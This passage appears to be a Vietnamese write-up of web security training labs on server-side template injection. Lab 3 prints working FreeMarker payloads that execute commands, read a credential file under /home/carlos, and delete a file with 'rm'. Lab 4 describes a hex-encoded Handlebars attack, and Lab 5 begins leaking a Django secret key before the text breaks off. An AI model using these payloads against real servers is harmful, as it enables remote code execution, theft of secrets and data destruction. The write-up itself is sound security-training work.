 ## Lab 3: Server-side template injection using documentation
Đăng nhập bài lab với tư cách là 1 content-manager mình có thể chỉnh sửa template của từng bài post. Nghịch ngợm 1 chút thì cuối cùng nó cũng hiện ra lỗi. Template này là freemarker
![image](https://hackmd.io/_uploads/r1kCMkj0A.png)

Mình tìm payload trên HackTrick thì hình như nó ra luôn cả payload cho bài lab này :v 
![image](https://hackmd.io/_uploads/SJ0Im1jCC.png)

Payload dùng cái nào cũng được

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

Final payload: `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}`

# Lab 4: Server-side template injection in an unknown language with a documented exploit
Nhập bừa payload để xem nó hiện lỗi gì
![image](https://hackmd.io/_uploads/HJl64yj0A.png)

Nó sử dụng HandleBars template. Mình copy y nguyên payload trên PayloadAllTheThing và urlencode nó nhưng mà lại bị lỗi. Xem ra thấy web này mình cần phải gửi payload đã hex hết tất cả các kí tự
![image](https://hackmd.io/_uploads/H1VpUJj0A.png)

![image](https://hackmd.io/_uploads/S15yvJiR0.png)

# Lab 5: Server-side template injection with information disclosure via user-supplied objects
Trở lại với tư cách là content-manager, mình đi test template ở 1 bài post và hiện lỗi này
![image](https://hackmd.io/_uploads/BJaoD1oRR.png)

Template này của django và bài lab chỉ yêu cầu mình steal framework's secret key. 

Vì bài lab yêu cầu lấy secret key cho và mình thấy payload này sẽ trả về chúng ta nhiều thông tin thú vị.
![image](https://hackmd.io/_uploads/SyCQ6lsAR.png)

Nó có 2 key là products và settings và chúng ta cần tập chung vào key này. Mình ctrl+F thử tìm key hay secret key mà chỉ có
![image](https://hackmd.io/_uploads/Hke9axiCC.png)
